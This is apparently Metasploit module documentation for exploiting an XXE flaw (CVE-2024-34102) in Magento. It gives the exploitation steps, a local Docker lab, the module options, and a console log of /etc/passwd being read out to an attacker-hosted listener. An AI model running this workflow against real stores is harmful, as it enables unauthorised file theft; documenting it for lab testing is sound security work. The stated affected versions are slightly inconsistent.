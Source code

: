 ## Vulnerable Application

### Description

An unauthenticated user can read arbritraty file from Magento Community edition version 2.4.0 to 2.4.3.
The vulnerability is due to the lack of input validation in the XML file. An attacker can exploit this
vulnerability by sending a specially crafted XML file to the target server. The attacker can read any file on the server.

On June 27, 2024, Adobe released a software update that addressed this vulnerability (CVE-2024-34102).

The following products are affected:

- Adobe Commerce: versions before:      2.4.7; 2.4.6-p5; 2.4.5-p7; 2.4.4-p8; 2.4.3-ext-7 ; 2.4.2-ext-7
- Magento Open Source: versions before: 2.4.7; 2.4.6-p5; 2.4.5-p7; 2.4.4-p8
- Adobe Commerce Webhooks Plugin: versions 1.2.0 to 1.4.0

### Exploitation

This module exploits the XXE vulnerability in Magento by following these steps:

- Creating a DTD File: This file includes entities that will read and encode `FILE`, then send it to your endpoint.

- Host the DTD File: Serve the dtd.xml file, accessible via HTTP `SRVHOST` on port `SRVPORT`.

- Craft the HTTP Request: Craft the XML payload which will include the DTD file hosted on your server.

- Execute a HTTP Request: Send the crafted XML payload to the target server.

- Capture the Exfiltrated Data: The exfiltrated data will be sent back to the attacker in a HTTP GET request and them saved in the loot.



### Setup

Create a `docker-compose.yml` file as below:

```yml
version: '2'
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_magento
      - MARIADB_DATABASE=bitnami_magento
    volumes:
      - 'mariadb_data:/bitnami/mariadb'
  magento:
    image: docker.io/bitnami/magento:2
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - MAGENTO_HOST=localhost
      - MAGENTO_DATABASE_HOST=mariadb
      - MAGENTO_DATABASE_PORT_NUMBER=3306
      - MAGENTO_DATABASE_USER=bn_magento
      - MAGENTO_DATABASE_NAME=bitnami_magento
      - ELASTICSEARCH_HOST=elasticsearch
      - ELASTICSEARCH_PORT_NUMBER=9200
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'magento_data:/bitnami/magento'
    depends_on:
      - mariadb
      - elasticsearch
  elasticsearch:
    image: docker.io/bitnami/elasticsearch:7
    volumes:
      - 'elasticsearch_data:/bitnami/elasticsearch/data'
volumes:
  mariadb_data:
    driver: local
  magento_data:
    driver: local
  elasticsearch_data:
    driver: local
```

Run the below command to create the container:

```
$ docker-compose up
```


## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI (required)

The path to the Magento (Default: `/`).

### SRVHOST (required)

The local IP address to listen on. This must be a routable IP address on the local machine (0.0.0.0 is invalid). 

### SRVPORT (required)

The local port to listen on.

## Scenarios

### Docker container running Magento Community edition version 2.4

```
Module options (exploit/multi/http/magento_xxe_cve_2024_34102):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILE       /etc/passwd      yes       The file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    192.168.128.1    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST      localhost        no        HTTP server virtual host
```

```   
msf6 exploit(multi/http/magento_xxe_cve_2024_34102) > 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Using URL: http://192.168.128.1:8080/
[*] Sending XXE request
[*] Received request for DTD file from 192.168.144.4
[+] Received file /etc/passwd content
[+] File saved in: /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt

msf6 exploit(multi/http/magento_xxe_cve_2024_34102) > cat /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt
[*] exec: cat /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
msf6 exploit(multi/http/magento_xxe_cve_2024_34102) > 
```

